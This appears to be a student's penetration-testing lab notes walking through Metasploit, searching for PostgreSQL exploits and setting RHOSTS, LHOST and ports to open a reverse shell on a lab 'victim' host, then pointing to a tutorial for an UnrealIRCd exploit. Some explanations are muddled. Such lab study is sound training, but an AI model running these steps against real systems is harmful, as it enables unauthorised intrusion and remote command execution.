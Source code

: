 ![[16.3.0.2.jpg]]
- We are going to target postgresql postgreSQl exploit 
	- We found a site that has a exploit 
		- tell us too (on metasploit terminal )
			- $search postgresql'
			- Look for any excellent but we need to make sure they will work 
![[16.3.0.3 1.jpg]]
- We are going to use 0 even though it is 0
	- this is from the website that we found 
$use 0
$option 
- This gives you available cmds 

$set RHOSTS 172.22.117.150
- Remote Hosts to what ip we want to attack
$set LHOST 172.22.117.100
- Local host to our ip

$set port LPORT 4444
- Local port this is our port 
- This is the port to listen too
$set port RPORT 5492
- This is the victim's ip address
- This is the port to 

$exploit 
- This will reach out to the remote host and port 

NOTE: 
- LOCAL host should be your/ hacker's computer
- REMOTE host should be the victim's attack from 

![[16.3.0.4.jpg]]
$exploit
- Note this shows that you are listening from this part and once they send back the request, then we are able to run commands on their computer 
- This will work for Windows but we want LINUX 

We want to attack on a linux server 
- We want to attack number 11 now because it is in linux 
![[16.3.0.5.jpg]]
- option - to fix the port numbers and other sets 

set LHOST  172.22.117.100
set RHOST 172.22.117.150
____
SAME activtiy but for unrealLIRcd 
![[16.3.0.6.jpg]]
https://www.computersecuritystudent.com/SECURITY_TOOLS/METASPLOITABLE/EXPLOIT/lesson7/
- We want to use this link to exploit the unrealIRCd exploit starting from section 6
